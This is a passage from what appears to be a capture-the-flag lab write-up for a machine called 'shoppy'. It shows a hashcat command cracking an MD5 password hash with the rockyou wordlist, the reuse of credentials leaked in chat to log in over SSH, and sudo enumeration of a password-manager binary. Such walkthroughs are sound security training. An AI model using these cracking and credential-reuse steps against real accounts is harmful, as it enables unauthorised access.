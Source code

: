 ```bash
[+] Domain Cached Credentials 2
[+] DNSSEC(NSEC3)
[+] RAdmin v2.x
```
cracking josh's password with hashcat  
```bash
hashcat -m 0 6ebcea65320589ca4f2f1ce039975995 /usr/share/wordlists/rockyou.txt
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```
and now we can use this password to login as josh in the mattermost portal  

### Mattermost chat
from reading the chats on mattermost, we can see that jaeger is the boss, and he posted his password in plaintext in the chat  
![jaeger.png](./jaeger.png)    

```bash
jaeger:Sh0ppyBest@pp!
```
we can use that password to loggin over ssh as jaeger and get the user flag  

### Privilege Escalation 
jaeger can run a password manager thing on the box as the deploy user  
```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger:
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```
that is an ELF binary 
```bash
file /home/deploy/password-manager
/home/deploy/password-manager: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=400b2ed9d2b4121f9991060f343348080d2905d1, for GNU/Linux 3.2.0, not stripped
```
```bash
sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```
and it's asking for a password that isn't jaeger's 
